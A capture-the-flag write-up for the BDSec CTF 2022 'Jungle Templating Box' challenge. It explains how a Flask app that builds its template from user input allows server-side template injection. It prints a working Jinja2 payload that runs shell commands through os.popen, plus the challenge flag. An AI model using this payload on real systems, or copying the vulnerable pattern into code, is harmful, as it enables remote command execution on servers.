 # Jungle Templating Box

An easy Web challenge !

Hello Welcome to My write up about this box that i've been played on BDsec CTF 2022 .

> First of all , let's take a view about the web page !!

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/view.JPG)
And now let's take a look at the source code that they give us :
```python
from flask import *
app = Flask(__name__)

@app.route('/',methods=['GET', 'POST'])
def base():
    person = ""
    if request.method == 'POST':
      if request.form['name']:
        person = request.form['name']
    palte = '''
    return render_template_string(palte)
if __name__=="__main__":
	app.run("0.0.0.0",port=5000,debug=False)
```
```html
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Secure Search</title>
    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/css/bootstrap.min.css" rel="stylesheet" integrity="sha384-0evHe/X+R7YkIZDRvuzKMRqM+OrBnVFBL6DOitfPri4tjfHxaWutUpFmBp4vmVor" crossorigin="anonymous">
  </head>
  <body>
    <h1 class="container my-3">Hi, %s</h1>
    <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.2.0-beta1/dist/js/bootstrap.bundle.min.js" integrity="sha384-pprn3073KE6tl6bjs2QrFaJGz5/SUsLqktiwsUTF55Jfv3qYSDhgCecCxMW52nD2" crossorigin="anonymous"></script>
    <div class="container my-3">
        <form action="/" method="post">
            <div class="mb-3">
              <label for="text" class="form-label">Type your name here:- </label>
              <input type="text" class="form-control" name="name" id="text" value="">
            </div>
            <button type="submit" class="btn btn-primary">See magic</button>
          </form>
    </div>
</body>
</html>'''% person
```

From here we can understand that the web page is working with Flask which is a lib on python that can configure backend of the webpage and display it as well .

Cool , now let's HACK xD .

Let's write something in the paramater of name.

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/2.JPG)

> as u can see whatever we write is printed out , it's like a variable that we can get the input and we print it .
> since we have this , what comes to my mind is SSTI exploit , we can put some payload to exec some commands and stuff. 
> let's go for it .!!


First i Tested this payload to see if it can be work : `{{7*7}}`

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/3.JPG)

And COOL , as we can see it worked , now let's intercept this request to burpsuite

>Well since the payload is worked and it worked with jinja2 , let's get some payload to read file and exec commands
You can find all this payloads here : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

And now let's use this paylaod : `
```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

> Let's encode it with url encode and paste it in the name paramater :

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/burp.png)

damn , `id` command is executed , now let's see what's files are in this directory with `ls -la`

![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/burp2.JPG)

> as we can see , we have flag file , let's read it with `cat flag`
> ![image info](https://github.com/Shakun8/BDSecCTF-2022/blob/main/images/burp3.JPG)

Cool , flag : `BDSEC{Y3Y_7H1515_7H3_F146}`

# I Hope you enjoy it !!





